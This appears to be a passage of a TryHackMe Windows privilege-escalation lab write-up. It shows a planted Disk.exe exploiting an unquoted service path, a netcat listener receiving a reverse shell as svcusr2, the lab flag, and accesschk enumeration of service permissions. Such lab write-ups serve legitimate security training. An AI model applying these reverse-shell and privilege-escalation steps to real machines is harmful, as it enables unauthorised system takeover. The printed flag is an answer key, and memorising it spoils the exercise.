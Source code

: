```
C:\Users\thm-unpriv>cd C:\MyPrograms

C:\MyPrograms>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\MyPrograms

09/01/2022  05:25 PM    <DIR>          .
09/01/2022  05:25 PM    <DIR>          ..
05/03/2022  03:16 PM    <DIR>          Disk Sorter Enterprise
09/01/2022  05:24 PM            48,640 Disk.exe
05/03/2022  07:44 PM    <DIR>          THMService
               1 File(s)         48,640 bytes
               4 Dir(s)  15,002,382,336 bytes free


┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4446
listening on [any] 4446 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.90.7] 49918
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr2

C:\Windows\system32>more C:\Users\svcusr2\Desktop\flag.txt
more C:\Users\svcusr2\Desktop\flag.txt
THM{QUOTES_EVERYWHERE}

```

Get the flag on svcusr2's desktop.

*THM{QUOTES_EVERYWHERE}*


```
C:\Users\thm-unpriv>cd C:\tools\AccessChk

C:\tools\AccessChk>accesschk64.exe -qlc thmservice

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com (accept terms)

thmservice
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
```